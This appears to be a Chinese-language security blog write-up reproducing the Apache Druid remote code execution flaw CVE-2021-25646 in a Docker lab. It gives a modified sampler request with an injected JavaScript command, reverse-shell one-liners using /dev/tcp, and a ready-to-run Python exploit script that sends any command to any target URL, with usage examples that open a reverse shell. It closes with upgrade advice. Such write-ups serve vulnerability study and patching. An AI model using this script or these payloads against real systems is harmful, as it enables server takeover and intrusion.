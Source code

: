 ```yaml
---
title: Apache Druid 远程代码执行漏洞（CVE-2021-25646）
tags: CVE-2021-25646,漏洞,ApacheDruid
renderNumberedHeading: true
grammar_cjkRuby: true
---
```



# Apache Druid 远程代码执行漏洞（CVE-2021-25646）

## 漏洞描述
> Apache Druid 是一个分布式的数据处理系统。Apache Druid包括执行用户提供的JavaScript的功能嵌入在各种类型请求中的代码。在Druid 0.20.0及更低版本中，用户发送恶意请求，利用Apache Druid漏洞可以执行任意代码。攻击者可直接构造恶意请求执行任意代码，控制服务器。

## 影响版本

> Apache Druid < 0.20.1

## 环境搭建

> 我们直接使用docker来搭建环境，docker搭建这里我就不说了，之前文章也有提到过

我们使用命令搜索 docker-druid `sudo docker search docker-druid`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612365138343.png)

下载镜像`sudo docker pull fokkodriesprong/docker-druid`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612365323577.png)

下载完成之后我们来启动一下 docker 镜像
`sudo docker run --rm -i -p 8888:8888  fokkodriesprong/docker-druid`
> docker run ：创建一个新的容器并运行一个命令
> --rm：容器退出时自动清理容器内部的文件系统
> -i：以交互模式运行容器，通常与 -t 同时使用
> -p：指定端口映射，格式为：主机(宿主)端口:容器端口

<br>

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612365651616.png)

## 漏洞复现

搭建好之后我们访问 `IP:8888` <br>
![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612365846607.png)

可以看到Apache Druid 版本为 0.15.1

然后我们点击 `Load data` > `Local disk`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612366423082.png)

在最右侧的表单 `Base directory` 和 `File filter` 分别填入 `quickstart/tutorial/`和`wikiticker-2015-09-12-sampled.json.gz`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612366809923.png)

点击 `Preview`，然后一直点击Next<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612366905212.png)

到 `Transform`的时候我们使用brup进行抓包，然后Next到 `Filter`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612367043020.png)
<br>
![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612367146016.png)

原始数据包：
```
{"type":"index","spec":{"ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"quickstart/tutorial/","filter":"wikiticker-2015-09-12-sampled.json.gz"}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[]}}},"samplerConfig":{"numRows":500,"cacheKey":"f7e99d25faaa43d1813aba2a53529dd2"}}
```
我们替换为：
```
{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"/opt/","filter":""}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('ping XXXX')}",
"dimension":"added",
"":{
"enabled":"true"
}
}}}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```
其中执行命令的代码为：
```
"function":"function(value){return java.lang.Runtime.getRuntime().exec('ping XXXX')}"
```

接下来我们使用dnslog平台来进行漏洞复现，看是否能够执行成功
我们把命令更改为 `ping xxxx`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612367660820.png)

可以看到 dnslog 平台已经接收到数据了，证明漏洞可以利用

 也可以进行反弹shell的操作，只需要把命令更换成
 
 `/bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/ip/port 0>&1`
 
 
 ## Python脚本
 
 > 自己写了一个Python的小脚本，代码功底有点水，接下来展示一下我写的Python小脚本

Python脚本代码：
```python?linenums
# coding:utf-8
import requests
import sys


def exploit(url=''):
    header = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36 SE 2.X MetaSr 1.0',
              'Content-Type': 'application/json;charset=UTF-8'}
    payload = r'''
  {"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"/opt/","filter":""}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript",
    "function":"function(value){return java.lang.Runtime.getRuntime().exec('%s')}",
    "dimension":"added",
    "":{
    "enabled":"true"
    }
    }}}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
    ''' % poc
    response = requests.post(url+'/druid/indexer/v1/sampler?for=filter',headers=header,data=payload)

    if response.status_code == 404:
        print 'Response_status_code: ' + str(response.status_code)
        print '''
If Status 404 please remove '/'
    Example:
        http://wwww.xxxxxx.com/ is ERROR
        http://wwww.xxxxxx.com is right
        '''
    else:
        print 'Response_status_code: ' + str(response.status_code)
        print 'Response: ' + response.text


if __name__ == '__main__':
    try:
        url = sys.argv[1]
        poc = sys.argv[2]
        exploit(url)
    except IndexError:
        print '''
        ApacheDruid-CVE-2021-25646
        
        Dnslog Example:
            python ApacheDruid-CVE-2021-25646.py http://xxxxxxxxx.com "ping xxx.dnslog.cn" 
        Shell Example:
            python ApacheDruid-CVE-2021-25646.py http://xxxxxxxxx.com "/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/IP/PORT 0>&1"
        '''
        print 'Use: python ApacheDruid-CVE-2021-25646.py http://xxxxxxxxx.com "command"'
```

直接使用  `python ApacheDruid-CVE-2021-25646.py` 会有一些小提示
![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612368028000.png)

`Dnslog` 测试：
`python ApacheDruid-CVE-2021-25646.py http://10.1.1.214:8888 "ping mrhat-test.jpdcb.l.dnslog.io"`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612368304394.png)

`反弹shell`测试：
先监听要反弹的端口 `6666`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612368418845.png)

然后执行命令
`python ApacheDruid-CVE-2021-25646.py http://10.1.1.214:8888 "/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/10.1.1.223/6666 0>&1"`
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612368546561.png)


## 修复方案
>升级到最新版 Apache Druid 0.20.1
下载链接：
https://druid.apache.org/downloads.html
https://github.com/apache/druid/releases/tag/druid-0.20.1

